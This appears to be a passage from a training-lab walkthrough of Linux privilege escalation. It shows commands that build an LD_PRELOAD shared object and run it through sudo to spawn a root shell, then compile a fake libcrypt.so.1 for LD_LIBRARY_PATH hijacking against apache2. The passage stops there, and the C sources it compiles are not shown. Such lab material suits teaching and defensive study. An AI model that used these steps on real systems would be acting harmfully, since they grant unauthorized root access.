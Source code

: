 LD_PRELOAD and LD_LIBRARY_PATH are both inherited from the user's environment. LD_PRELOAD loads a shared object before any others when a program is run. LD_LIBRARY_PATH provides a list of directories where shared libraries are searched for first.

Create a shared object using the code located at /home/user/tools/sudo/preload.c:

```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

user@debian:~$ gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/tools/sudo/preload.c

```

Run one of the programs you are allowed to run via sudo (listed when running sudo -l), while setting the LD_PRELOAD environment variable to the full path of the new shared object:

```
sudo LD_PRELOAD=/tmp/preload.so program-name-here

user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so iftop
root@debian:/home/user#

```

A root shell should spawn. Exit out of the shell before continuing. Depending on the program you chose, you may need to exit out of this as well.

Run ldd against the apache2 program file to see which shared libraries are used by the program:

```
ldd /usr/sbin/apache2

user@debian:~$ ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fffd85ff000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f8eed7ae000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f8eed58a000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f8eed350000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f8eed134000)
        libc.so.6 => /lib/libc.so.6 (0x00007f8eecdc8000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f8eecbc3000)
        librt.so.1 => /lib/librt.so.1 (0x00007f8eec9bb000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f8eec784000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f8eec57f000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f8eec357000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f8eedc6b000)

```


Create a shared object with the same name as one of the listed libraries (libcrypt.so.1) using the code located at /home/user/tools/sudo/library_path.c:

```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

user@debian:~$ gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c

```
